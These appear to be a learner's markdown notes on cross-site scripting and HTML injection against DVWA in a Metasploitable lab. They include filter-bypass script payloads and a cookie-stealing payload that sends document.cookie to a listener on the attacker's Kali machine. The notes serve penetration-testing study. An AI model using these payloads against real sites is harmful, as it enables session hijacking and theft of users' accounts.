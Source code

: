 ```
```

## Reflected XSS + cookie stealing
### stored XSS on victim server
- find xss vuln website
- exec .js in victim website
- anyone who visit website will exec .js

### reflected xss
- victim server does'nt store .js
- send link with js code
- set security=low
- code run only once on script post
- http://<metasploitable ip>/dvwa/vulnerabilities/xss_r/
```
<script>alert('Waf')</script>
```
- security=medium
KO :
```
<script>alert('Waf')</script>
```
OK :
```
<Script>alert('Waf')</Script>
```
```
<scr<script>ipt>alert('Waf')</Script>
```

- server simple http server
python -m http.server 8001 
- js script to get cookie (document.cookie=cookie session of user visiting page)
```
<Script>document.write('<img src="http://<kali ip>:8001/' + document.cookie + ' ">');</Script>
```

### stored xss
- code stored server-side (example = comment on a blog)
- set metasploitable security=low -> no data filter
- navigate to xss stored : - http://<metasploitable ip>/dvwa/vulnerabilities/xss_s/
- code run on every page load
- sevurity=medium -> data filtering -> need to edit DOM maxlength pram for name field (with inspect tool)
  - `<Script>alert('Waf')</Script>` run=success

### html injection
- inject html
- http://<metasploitable ip>/dvwa/vulnerabilities/xss_r/ and - http://<metasploitable ip>/dvwa/vulnerabilities/xss_s/
- html examples :
  - \<h1\>PATATE\<\/h1>
  - \<meta http-equiv="refresh" content=0; url=http://google.com" \/\> : create infinite failed refresh loop
  